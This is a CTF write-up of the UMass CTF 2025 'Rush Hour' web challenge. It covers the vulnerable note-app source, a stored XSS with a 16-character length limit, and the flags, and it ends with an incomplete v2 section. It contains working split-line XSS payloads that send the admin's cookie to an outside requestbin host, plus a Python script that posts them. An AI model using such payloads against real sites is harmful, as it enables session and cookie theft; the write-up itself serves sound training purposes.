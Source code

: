 ```yaml
---
title: "UMASS CTF 2025"
date: 2025-04-21
categories: [CTF]
tags: [CTF]
---
```


## Rush Hour
![Rush hour](assets/images/umass2025/rush.png)

Rush Hour was a web challenge where a link and zip file was given. Upon downloading the zip file and then unzipping, following file
gets revelad.

![Rush hour](assets/images/umass2025/files.png)

Upon inspecting the files, the basic workflow of the application is you can add notes to the application which gets reflected in the **Your Notes** section. A user gets unique id(uuidv4) which gets set as cookie and is reflected in the url section. Admin can be sent that particualar uuid for admin to vist the page.

![Rush hour](assets/images/umass2025/page.png)

The below code snippet contains the main logic of adding notes
1. if no cookies are you even a user??
```javascript
app.post('/create',async (req,res)=>{
  if(!req.cookies || !req.cookies.user || !(client.exists(req.cookies.user))){
    return res.send("Hmm are you even a user? Go to /");
  } 
```
2. If body has no notem then the follwing response is sent.
``` javascript
if(!req.body.note){
  return res.send("Did not get a note body")
}
```
3. If the user key in cookies has value **admin** and the request is not from localhost then **You're not an admin!** response thrown.
Else if if the admin is not in user cookie and the request is from localhost, **Admins are not allowed to doctor user notes!** response is thrown.
```javascript
if(req.cookies.user.includes("admin") && req.ip != '::ffff:127.0.0.1'){
    return res.send("You're not an admin!")
} else if(!req.cookies.user.includes("admin") && req.ip == '::ffff:127.0.0.1') {
    return res.send("Admins are not allowed to doctor user notes!");
}
```
4. Here basically normal user's notes lenght should not exceed 16 which translates to our payload's length should not be greater than 16. Hence we have to find some way to exfiltrate cookie with the restriction that we've got.
```javascript
// I get to have longer notes!
  if(req.ip === '::ffff:127.0.0.1'){
    if(req.body.note.length > 42) {
      return res.send("Invalid note length!")
    }
  } else {
    if(req.body.note.length > 16) {
      return res.send("Invalid note length!")
    }
  }
  let user_note = await get_cache(req.cookies.user); // get_cache gets all the users' notes
  if(!user_note) {
    return res.send("Problem while fetching notes! Try something else perhaps?")
  }
})
```

5. In gist if you are a normal user your single note can only be of length 16. Hence we have to somehow make payload of length 16 to exfiltrate cookie. 
Another important snippet of code is shown below. When a user visits and **/user/{id}** where is the userid or noteid(can be said any?), if the userid exists in the redis then the user's notes are fetched and sent to front-end. No filtering is done so XSS here is possible.
```javascript
app.get('/user/:id',async (req,res)=>{
  if(!req.params || !(await client.exists(req.params.id))){

    return res.redirect('/')
  }
  let notes = await get_cache(req.params.id);
  if(req.params.id.includes("admin") && req.ip != '::ffff:127.0.0.1'){
    return res.send("You're not an admin!");
  } else if (req.params.id.includes("admin") && req.ip == '::ffff:127.0.0.1' && !banned_fetch_dests.includes(req.headers['sec-fetch-dest'])) {
    res.cookie('supersecretstring', process.env.FLAG);
  }
  res.setHeader('Content-Type', 'text/html');
  const customers = await get_cache(req.params.id + "_cust") + 1;
  await set_cache(req.params.id + "_cust", customers);
  let htmlContent;
  fs.readFile(path.join(__dirname,'public','index.html'), (err, data) => {
      if(err) {
        res.send("Problem creating HTML");
      } else {
        htmlContent = data.toString();
        let content = '<div id="notes">';
        notes.forEach(note => {
          content += "<li>";
          content += note;
          content += "</li>";
        })
        content += '</div>';
        htmlContent = htmlContent.replace('<div id="notes"> </div>', content);
        htmlContent = htmlContent.replace('<div id="customers"> </div>', `<div id="customers"> Customer Count: ${customers}</div>`);
        res.send(htmlContent);
      }
  });
})
```
6. The solution payload would here be to send the following txt file. Here each line is of length less than 16. A function **f** is defined which when given a text returns empty string which is used to comment/remove unnecessary strings. 
```
//payload.txt
<script>/*
*/f=()=>{/*
*/return ''/*
*/}/*
*/;location=f('
')+'https:'+f('
')+'//requ'+f('
')+'estbi'+f('
')+'n.wha'+f('
')+'pi.clo'+f('
')+'ud/11'+f('
')+'40q501'+f('
')+'?x='+f('
')+document[f('
')+'cookie']/*
*/</script>
```
7. The following python code can be used to post notes.
```python
import requests
URL = 'http://rush-hour.ctf.umasscybersec.org/create'
# URL = 'http://localhost:3000/create'
URL_USER = 'http://rush-hour.ctf.umasscybersec.org/user/639b7cb1-45ef-4f35-9033-9df2d6fb1dda'
# requests.get('http://rush-hour.ctf.umasscybersec.org/clear')
with open('payload.txt','r') as p:
    payloads = p.readlines()
    for body in payloads:
        body = body.strip()
        requests.post(URL, headers={
            'Cookie':'user=f3bd63f0-8bdb-44ae-ad89-be5e931cfa33'
        }, data={
            "note": body
        })
```

8. Sending the user_id to admin bot will exfiltrate cookie in the requestbin site. After that following payload can be sent to exfiltrate the flag.
```
<script>/*
*/f=()=>{/*
*/return ''/*
*/}/*
*/;onload=(/*
*/)=>{/*
*/;y=open(/*
*/+f('
')+'../'+f('
')+'../'+f('
')+'../'+f('
')+'../'+f('
')+'user'+f('
')+'/'+f('
')+'4ec7'+f('
')+'fd3a-'+f('
')+'3e8b-'+f('
')+'4f9b-'+f('
')+'8ebe-'+f('
')+'91a2'+f('
')+'77018'+f('
')+'fd3-a'+f('
')+'dmin');/*
*/y.onload=(/*
*/)=>{/*
*/;location=f('
')+'https:'+f('
')+'//requ'+f('
')+'estbi'+f('
')+'n.wha'+f('
')+'pi.clo'+f('
')+'ud/11'+f('
')+'40q501'+f('
')+'?x='+f('
')+document[f('
')+'cookie']/*
*/}}/*
*/</script>
```
9. Flag `UMASS{tH3cl053Rz@re_n0_m@tcH}`

## Rush Hour v2
![Rush hour](assets/images/umass2025/rushv2.png)

This challenge was similar to the above challenge but the differene was location.href cannot be used here since request.abort() is used so everything should be done via window.open
```javascript
   page.on('request', (request) => {
      if (!request.url().startsWith("http://127.0.0.1:3000")) {
        request.abort();
      } else {
        request.continue();
      }
    });
```
Solution:
```
// payload.txt
```
```python
#python code goes here
```
flag `UMASS{k@hUnA_mY_b310v3D1!!1!}`

## Falling Blocks
